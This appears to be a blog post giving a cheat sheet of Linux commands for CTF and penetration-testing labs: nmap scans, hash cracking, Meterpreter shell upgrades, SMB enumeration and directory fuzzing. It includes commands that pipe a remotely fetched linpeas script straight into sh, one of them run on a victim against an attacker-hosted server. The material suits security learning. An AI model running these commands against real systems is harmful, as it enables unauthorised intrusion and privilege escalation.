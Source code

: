 ```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Linux Commands for Everyday Hacking and Security",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: false
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
#for TCP Scan
sudo nmap -sC -sV -p- -T5 -Pn targethost

#for UDP Scan
sudo nmap -sU -sV -p- -T5 -Pn targethost

# Store scan results for ports separated by comma.
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 cronos.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# Check which ports are found
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo $ports
22,53,80,9227,19041,30100

# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ sudo nmap -sC -sV -A -O -T5 -p$ports cronos.htb
```





Start Metasploit with database



Cracking hash with John

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```

Metasploit Shell Upgrade to Meterpreter
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1


## Extract Files

Gz Files

gunzip archive.gz

```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

ssh username@host -oHostKeyAlgorithms=+ssh-dss


## Text Filter

grep -i ]- inlcude
grep -v ]- exclude

## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.232.56
```

```bash
smbclient //IP/directory
```

mount NFS

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
nc IP port

## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

### Python Simple HTTP Server


```bash
python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

## Directory Enumeration

```bash
                                                                                                                                                                        
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cronos.htb/FUZZ -mc 200,300,301,302,303,403 -c -t 400


                                                                                                                                                                         
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ gobuster dir -u  http://cronos.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 200 --quiet

```